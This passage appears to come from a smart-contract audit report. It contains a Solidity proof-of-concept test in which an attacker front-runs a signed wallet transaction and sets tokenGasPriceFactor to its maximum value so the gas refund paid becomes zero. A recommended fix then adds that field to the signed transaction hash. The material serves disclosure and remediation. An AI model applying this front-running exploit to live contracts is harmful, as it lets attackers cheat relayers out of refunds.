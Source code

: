 ```solidity
            Enum.Operation.Call, // operation
            100_000 //targetTxGas
        );
        FeeRefund memory feeRefund = FeeRefund(
            20_000, // uint256 baseGas;
            10, // uint256 gasPrice; //gasPrice or tokenGasPrice
            1, // uint256 tokenGasPriceFactor;
            address(token), // address gasToken;
            payable(fundReceiver) // address payable refundReceiver;
        );
        uint256 batchId = 0;
        uint256 nonce = 0;

        bytes memory signature = buildSignature(wallet, tx, feeRefund, nonce, bobPrivateKey);

        vm.stopPrank();

        // Now attacker frontruns the transaction, modifies the tokenGasPriceFactor parameter
        // and resubmits the transaction
        vm.startPrank(attacker);

        FeeRefund memory attackerFeeRefund = FeeRefund(
            feeRefund.baseGas,
            feeRefund.gasPrice,
            type(uint256).max, // change tokenGasPriceFactor
            feeRefund.gasToken,
            feeRefund.refundReceiver
        );

        wallet.execTransaction{gas: 250000}(tx, batchId, attackerFeeRefund, signature);

        // By using a high tokenGasPriceFactor the payment is 0
        assertEq(fundReceiver.balance, 0);
    }
}
```

## Recommendation

Add `refundInfo.tokenGasPriceFactor` to the encoding that is used to build the hash:

```solidity
  function encodeTransactionData(
      Transaction memory _tx,
      FeeRefund memory refundInfo,
      uint256 _nonce
  ) public view returns (bytes memory) {
      bytes32 safeTxHash =
          keccak256(
              abi.encode(
                  ACCOUNT_TX_TYPEHASH,
                  _tx.to,
                  _tx.value,
                  keccak256(_tx.data),
                  _tx.operation,
                  _tx.targetTxGas,
                  refundInfo.baseGas,
                  refundInfo.gasPrice,
                  refundInfo.gasToken,
                  refundInfo.refundReceiver,
+                 refundInfo.tokenGasPriceFactor,
                  _nonce
              )
```